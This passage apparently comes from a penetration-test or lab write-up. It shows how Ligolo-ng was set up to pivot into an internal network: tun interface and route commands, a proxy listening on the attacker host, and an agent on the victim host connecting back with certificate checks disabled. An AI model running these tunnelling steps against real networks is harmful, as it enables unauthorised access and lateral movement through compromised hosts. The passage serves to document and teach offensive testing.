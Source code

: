 ```
~$ sudo ip tuntap add user $(whoami) mode tun ligolo
[sudo] password:

~$ sudo ip route del 192.168.98.0/24 dev tun0

~$ sudo ip link set ligolo up

~$ sudo ip route add 192.168.98.0/24 dev ligolo

~$ ip route
default via 10.10.200.1 dev tun0 proto static metric 50
10.10.200.0/24 dev tun0 proto kernel scope link src 10.10.200.106 metric 50
192.168.80.0/24 via 10.10.200.1 dev tun0 proto static metric 50
192.168.98.0/24 dev ligolo scope link linkdown
```

<p class="indent-paragraph">
  Ligolo-ng was deployed on both ends to create an encrypted HTTP(s) tunnel. <strong>On the attacker host</strong>, the Ligolo server (proxy) was started with a self-signed certificate, listening on port 443:
</p>

```
~$ ./proxy --selfcert --laddr 0.0.0.0:443
WARN[0000] Using automatically generated self-signed certificates (Not recommended)

INFO[0000] listening on 0.0.0.0:443

       Ligolo-ng » INFO[0089] Agent joined. 
       name=privilege@ubuntu-virtual-machine remote="192.168.80.10:34634"
```
<p class="indent-paragraph">
  <strong>On the victim host</strong>, the Ligolo agent was launched to connect back to the attacker’s listener (ignoring the untrusted cert):
</p>

```
~$ ./agent --connect 10.10.200.106:443 --ignore-cert

WARN[0000] warning, certificate validation disabled
INFO[0000] Connection established  addr="10.10.200.106:443"
```

<p class="indent-paragraph">
  Once both sides were running, the <code>ligolo</code> interface carried full IP-level traffic—including UDP, ICMP, NTP, and TCP—through the compromised host, enabling all subsequent internal enumeration and time synchronization.
</p>

```
~$ [Agent : privilege@ubuntu-virtual-machine] »  session
? Specify a session : 1 - privilege@ubuntu-virtual-machine - 192.168.80.10:42010

~$ [Agent : privilege@ubuntu-virtual-machine] » start
INFO[10951] Starting tunnel to privilege@ubuntu-virtual-machine
```
